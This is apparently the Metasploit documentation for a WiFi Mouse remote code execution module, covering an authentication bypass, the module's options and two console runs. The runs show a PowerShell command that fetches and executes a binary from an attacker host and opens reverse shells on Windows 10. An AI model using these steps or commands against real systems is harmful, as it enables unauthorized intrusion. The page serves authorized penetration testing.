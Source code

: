 ## Vulnerable Application

The WiFi Mouse (Mouse Server) from Necta LLC contains an auth bypass as the
authentication is completely implemented client side.  Then it is possible
to open a program on the server (cmd.exe in our case) and type commands
resulting in an RCE.

Versions 1.8.3.4 (current as of module writing) and before are vulnerable.

Version 1.8.2.3 can be downloaded from [edb](https://www.exploit-db.com/apps/46b494c56615f48dd09065108d604762-MouseServer.exe)

## Targets

### Stager

This is Metasploit's cmd stager, it has two flavors which can be changed through the advanced option
`CMDSTAGER::FLAVOR`.

1. `psh_invokewebrequest` (default) this one types the command and pulls back the payload nice and fast.
You should use it in almost all circumstances.
2. `certutil`  typing of the payload appears on the user's screen, and is thus unreliable
(needs ~3.5min of solitude). If the user types anything or moves the focus to another window, exploit will fail.


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/windows/misc/wifi_mouse_rce`
4. Set `rhost` and `lhost` as required.
5. Do: `run`
6. You should get a shell as the user who is running wifi mouse.

## Options

### SLEEP

The length of time to sleep between each command, this gives the remote program time to process the command on screen.

### LINEMAX

How long each line should be that is sent for processing.  While the program
seems to be able to take ~2048, anything more than ~1020 seems to crash the program. 1000 - 1020 should be safe.
Defaults to `1020`

## Scenarios

###  Wifi Mouse 1.8.3.4 on Windows 10 using `psh_invokewebrequest` Stager

```
resource (mouse.rb)> use exploits/windows/misc/wifi_mouse_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (mouse.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (mouse.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (mouse.rb)> set verbose true
verbose => true
msf6 exploit(windows/misc/wifi_mouse_rce) > run

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] 2.2.2.2:1978 - Opening command prompt
[*] 2.2.2.2:1978 - Typing out payload
[*] 2.2.2.2:1978 - Using URL: http://1.1.1.1:8080/qGn4ESH
[*] 2.2.2.2:1978 - Generated command stager: ["powershell.exe -c Invoke-WebRequest -OutFile %TEMP%\\IDcEhcbA.exe http://1.1.1.1:8080/qGn4ESH & %TEMP%\\IDcEhcbA.exe & del %TEMP%\\IDcEhcbA.exe"]
[*] 2.2.2.2:1978 - Command Stager progress - 100.00% done (146/146 bytes)
[*] 2.2.2.2:1978 - Client 2.2.2.2 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.16299.98) requested /qGn4ESH
[*] 2.2.2.2:1978 - Sending payload to 2.2.2.2 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.16299.98)
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 2.2.2.2
[*] Command shell session 1 opened (1.1.1.1:4444 -> 2.2.2.2:50211) at 2022-09-21 16:29:06 -0400
[*] 2.2.2.2:1978 - Server stopped.


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Windows\system32>whoami
whoami
win10prolicense\windows

C:\Windows\system32>systeminfo
systeminfo

Host Name:                 WIN10PROLICENSE
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.16299 N/A Build 16299
```

### Wifi Mouse 1.8.2.3 on Windows 10 using `certutil` Stager

```
resource (mouse.rb)> use exploits/windows/misc/wifi_mouse_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (mouse.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (mouse.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (mouse.rb)> set CMDSTAGER::FLAVOR certutil
CMDSTAGER::FLAVOR => certutil
msf6 exploit(windows/misc/wifi_mouse_rce) > set verbose false
verbose => false
msf6 exploit(windows/misc/wifi_mouse_rce) > run

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] 2.2.2.2:1978 - Opening command prompt
[*] 2.2.2.2:1978 - Typing out payload
[*] 2.2.2.2:1978 - Command Stager progress -   1.01% done (1019/100776 bytes)
[*] 2.2.2.2:1978 - Command Stager progress -   2.02% done (2038/100776 bytes)
[*] 2.2.2.2:1978 - Command Stager progress -   3.03% done (3057/100776 bytes)
...
[*] 2.2.2.2:1978 - Command Stager progress -  98.08% done (98843/100776 bytes)
[*] 2.2.2.2:1978 - Command Stager progress -  99.09% done (99862/100776 bytes)
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 2.2.2.2
[*] 2.2.2.2:1978 - Command Stager progress - 100.00% done (100776/100776 bytes)
[*] Command shell session 3 opened (1.1.1.1:4444 -> 2.2.2.2:50926) at 2022-09-04 15:11:29 -0400


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Program Files (x86)\MouseServer.exe>
```
